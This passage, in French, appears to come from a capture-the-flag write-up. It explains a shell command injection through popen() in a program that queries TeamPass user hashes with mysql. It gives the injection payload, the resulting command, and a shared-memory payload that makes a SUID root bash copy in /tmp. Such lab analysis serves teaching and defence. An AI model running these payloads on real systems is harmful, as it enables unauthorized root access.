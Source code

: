 ***

### <mark style="color:$danger;">6. Injection de Commandes</mark>

#### <mark style="color:$success;">6.1 Mécanisme d'Injection</mark>

**Commande légitime construite :**

```bash
mysql -u dbuser -D dbname -s -N -e 'select email from teampass_users where pw = "hash_legitime"'
```

**Payload d'injection :**

```bash
'; touch /tmp/0xdf;#
```

**Commande finale exécutée :**

```bash
mysql -u dbuser -D dbname -s -N -e 'select email from teampass_users where pw = "'; touch /tmp/0xdf;#"'
```

#### <mark style="color:$success;">6.2 Analyse de l'Injection</mark>

**Décomposition :**

1. `"'` : Ferme la chaîne SQL
2. `;` : Termine la commande SQL
3. `touch /tmp/0xdf` : Commande système arbitraire
4. `;#` : Termine la commande et commente le reste

**Pourquoi ça marche :**

* `popen()` exécute la commande via le shell
* Le shell interprète les caractères spéciaux (`;`, `#`)
* Pas de validation des données utilisateur

#### <mark style="color:$success;">6.3 Escalade vers Root</mark>

```c
// Payload pour créer un shell SUID
snprintf(h_shm, 0x400, "Leaked hash detected at whenever > '; cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf;#");
```

**Résultat :**

```bash
# Le programme s'exécute avec les privilèges root
# et crée un shell bash avec les bits SUID/SGID
-rwsrwsrwx 1 root root 1396520 Feb 24 19:34 /tmp/0xdf
```
